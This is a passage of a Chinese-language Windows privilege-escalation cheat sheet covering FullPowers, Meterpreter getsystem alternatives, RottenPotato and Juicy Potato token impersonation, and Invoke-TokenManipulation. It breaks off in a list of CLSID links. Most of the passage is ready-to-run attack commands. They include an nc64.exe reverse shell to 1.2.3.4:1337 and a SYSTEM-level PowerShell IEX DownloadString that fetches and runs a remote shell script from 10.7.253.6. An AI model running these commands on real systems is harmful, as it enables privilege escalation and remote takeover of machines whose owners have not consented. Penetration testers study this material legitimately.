 ```powershell
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled

c:\TOOLS>FullPowers -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z
```

### Meterpreter getsystem及其替代方案

```powershell
meterpreter> getsystem 
Tokenvator.exe getsystem cmd.exe 
incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe 
psexec -s -i cmd.exe 
python getsystem.py # 来自 https://github.com/sailay1996/tokenx_privEsc
```

### RottenPotato（令牌模仿）

* 可在此处获取二进制文件：[foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato) 和 [breenmachine/RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)

* 使用加载了`incognito模式`的Metasploit进行利用。

  ```c
  getuid
  getprivs
  use incognito
  list_tokens -u
  cd c:\temp\
  execute -Hc -f ./rot.exe
  impersonate_token "NT AUTHORITY\SYSTEM"
  ```

```powershell
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```

### Juicy Potato（滥用黄金权限）

> 如果机器是 **>= Windows 10 1809 & Windows Server 2019** - 尝试 **Rogue Potato**    
> 如果机器是 **< Windows 10 1809 < Windows Server 2019** - 尝试 **Juicy Potato**

* 可在此处获取二进制文件：[ohpe/juicy-potato](https://github.com/ohpe/juicy-potato/releases) 

1. 检查服务帐户的权限，您应该寻找 **SeImpersonate** 和/或 **SeAssignPrimaryToken**（在身份验证后模仿客户端）

   ```powershell
   whoami /priv
   ```

2. 根据您的Windows版本选择一个CLSID，CLSID是一个全局唯一标识符，用于标识COM类对象

   * [Windows 7 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise) 
   * [Windows 8.1 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_8.1_Enterprise)
   * [Windows 10 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise)
   * [Windows 10 Professional](https://ohpe.it/juicy-potato/CLSID/Windows_10_Pro)
   * [Windows Server 2008 R2 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise) 
   * [Windows Server 2012 Datacenter](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter)
   * [Windows Server 2016 Standard](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard) 
